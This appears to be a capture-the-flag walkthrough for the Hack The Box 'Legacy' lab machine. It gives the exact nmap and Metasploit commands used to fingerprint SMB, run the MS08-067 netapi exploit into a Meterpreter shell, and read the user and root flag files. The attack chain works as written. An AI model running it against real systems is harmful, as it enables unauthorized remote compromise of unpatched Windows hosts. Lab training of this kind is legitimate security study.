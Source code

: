 # Hack The Box - Legacy

```sh
export IP=10.10.10.4
```

```sh
sudo nmap -A -T4 -p- -oN nmap-initial $IP
```
![nmap-initial](/screenshots/nmap-initial.png)

Start metasploit
```sh
msfconsole
```

```
search msb_version
```
![msf-smb_version]("./screenshots/mfs-smb_version.png")

```
use auxiliary/scanner/smb/smb_version
```

```
set rhosts 10.10.10.4
```

```
run 
```
![msf-smb_version_result]("./screenshots/mfs-smb_version_res.png")

```
use exploit/windows/smb/ms08_067_netapi
```

Set RHOSTS
```
set rhosts 10.10.10.4
```
Check your ip addr tun0
Set LHOST
```
set lhost 10.10.14.3
```

```
exploit
```

In meterpreter shell
```
getuid
```
```
sysinfo
```
![meterpreter-info]("./screenshots/meterpreter-info.png")

```
cd ../../"documents and settings"
```
```
dir
```
![meterpreter-doc_set]("./screenshots/meterpreter-doc_set.png")
```
cd john/Desktop
```

```
cat user.txt
```
![user-flag]("./screenshots/user-flag.png")

```
cd ../../Administrator/Desktop
```

```
cat root.txt
```
![root-flag]("./screenshots/root-flag.png")
